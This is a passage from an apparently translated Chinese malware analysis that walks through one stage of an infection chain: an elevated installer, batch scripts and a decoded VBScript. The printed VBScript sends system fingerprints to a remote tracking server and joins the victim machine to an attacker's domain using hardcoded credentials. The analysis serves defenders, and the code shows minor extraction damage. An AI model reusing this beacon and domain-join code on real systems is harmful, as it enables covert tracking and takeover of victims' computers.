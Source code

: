 [![](https://p2.ssl.qhimg.com/t0171194f0496d7d7f7.png)](https://p2.ssl.qhimg.com/t0171194f0496d7d7f7.png)<br>
它包含要删除的其他模块：

[![](https://p5.ssl.qhimg.com/t014cf105136b2cbb9a.png)](https://p5.ssl.qhimg.com/t014cf105136b2cbb9a.png)<br>
应用程序`“install.exe”`以`“setup.bat”`作为参数进行部署。

[![](https://p2.ssl.qhimg.com/t01746adfc46c3c18e8.png)](https://p2.ssl.qhimg.com/t01746adfc46c3c18e8.png)

### <a class="reference-link" name="%E7%AC%AC3%E9%98%B6%E6%AE%B5%20-%20%E4%BB%8Ecabinet%E4%B8%AD%E5%8F%96%E5%87%BA%E7%BB%84%E4%BB%B6"></a>第3阶段 – 从cabinet中取出组件

应用程序`install.exe`是基本的。它的唯一作用是在elevated 模式下运行下一个进程。在下面，你可以看到它的主要功能：

[![](https://p0.ssl.qhimg.com/t018496f0ab824471c9.png)](https://p0.ssl.qhimg.com/t018496f0ab824471c9.png)

脚本`setup.bat`部署了另一个名为`SqadU9FBEV.bat`的组件：

[![](https://p5.ssl.qhimg.com/t01da6014b92a92ac9c.png)](https://p5.ssl.qhimg.com/t01da6014b92a92ac9c.png)<br>
它通过`ping 127.0.0.1`来延迟执行。然后，它运行第二个编码脚本，为其提供一个活动ID作为参数：

[![](https://p0.ssl.qhimg.com/t01e424e6cae31f106a.png)](https://p0.ssl.qhimg.com/t01e424e6cae31f106a.png)下一个部署的元素是一个编码的VBS脚本：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01346fe45107e373f1.png)<br>
在解码之后（用 这个解码器），我们看到了这个脚本：`NYkjVVXepl.vbs`。我们还看到它将系统和信标指纹到服务器：

```
Set SystemSet = GetObject("winmgmts:").InstancesOf ("Win32_OperatingSystem") 
for each System in SystemSet 
  winVer = System.Caption 
next
Function trackEvent(eventName, extraData)
  Set tracking = CreateObject("MSXML2.XMLHTTP")
  tracking.open "GET", "http://eventz.win:13463/trk?event=" &amp; eventName &amp; "&amp;computer=" &amp; UUID &amp; "&amp;windows-version=" &amp; winVer &amp; "&amp;error=" &amp; err.Number &amp; ";" &amp; err.Description &amp; ";" &amp; err.Source &amp; ";" &amp; extraData &amp; "&amp;campaign=qavriknzkk&amp;channel=" &amp; WScript.Arguments.Item(0), False
  tracking.send
  err.clear
End Function
```

这个片段是将受感染的计算机添加到域：

```
SET objNetwork = CREATEOBJECT("WScript.Network")
strComputer = objNetwork.ComputerName
SET objComputer = GetObject("winmgmts:" &amp; "`{`impersonationLevel=Impersonate,authenticationLevel=Pkt`}`!\" &amp; strComputer &amp; "rootcimv2:Win32_ComputerSystem.Name='" &amp; strComputer &amp; "'")
ReturnValue = objComputer.JoinDomainOrWorkGroup("kuikdelivery.com", "4sdOwt7b7L1vAKR6U7", "kuikdelivery.comadministrator", "OU=" &amp; WScript.Arguments.Item(0) &amp; ",DC=kuikdelivery,DC=com", JOIN_DOMAIN + ACCT_CREATE + DOMAIN_JOIN_IF_JOINED + JOIN_UNSECURE)
If (ReturnValue  0) Or (err.number  0) Then
  trackEvent "join-domain-failed", ReturnValue
  WScript.Quit 1
Else
  trackEvent "join-domain-success", Null
  WScript.Quit 0
End IF

```